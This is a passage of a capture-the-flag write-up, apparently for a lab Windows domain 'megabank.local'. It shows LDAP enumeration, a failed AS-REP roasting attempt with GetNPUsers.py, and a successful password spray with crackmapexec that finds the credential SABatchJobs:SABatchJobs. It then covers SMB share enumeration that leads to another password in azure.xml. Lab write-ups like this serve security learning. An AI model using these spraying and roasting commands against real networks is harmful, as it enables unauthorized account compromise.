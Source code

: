 Output provided was too big so I sorted out with this command:

`cat megabank-local-x-bind.txt | awk '{print $1}' | sort | uniq -c | sort -nr > ldap-x-b-result-sorted.txt`
![](https://i.imgur.com/yZHnFzU.png)

Nothing very useful was found, but I still have list of **sAMAccountNames**.

`cat megabank-local-x-bind.txt | grep sAMAccountName | awk -F ': ' '{print $2}' > sAMAccountName.txt`
![](https://i.imgur.com/p63FszQ.png)

Now with this account names, I can attempt on **AS-REP Roasting**
## Exploitation
### AS-REP Roasting(Failed)
With the list of account names obtained from **RPC** and **LDAP**, I attempted on AS-REP Roasting attack -> **FAILED

`sudo GetNPUsers.py 'megabank.local/' -user sAMAccountName.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.172`
![](https://i.imgur.com/t5AAjQe.png)
### Password Spraying(Success!)
I first ran brute force using same list for both usernames and password list and surprisingly it worked -> **SABatchJobs:SABatchJobs**

`crackmapexec smb 10.10.10.172 -u sAMAccountName.txt -p sAMAccountName.txt --no-brute --continue-on-success`
![](https://i.imgur.com/3ctods6.png)

I can verify it is valid as such:

![](https://i.imgur.com/mbVmmaX.png)

Sadly, this account got no access to winrm:

![](https://i.imgur.com/JLNZOP9.png)
## Back to Enum
### SMB as SABatchJobs
Knowing that user **SABatchJobs** got access to SMB, I ran SMBMap to see what access the user has:

`smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs`
![](https://i.imgur.com/xC7zNhk.png)

I took time to recursively download all the shares with access and enumerated files inside of it.

![](https://i.imgur.com/ohekjmx.png)

**azure_uploads** -> Looked very interesting but empty
**NETLOGON** -> Empty
**SYSVOL** -> Nothing
**user$** -> azure.xml -> revealed another password!
  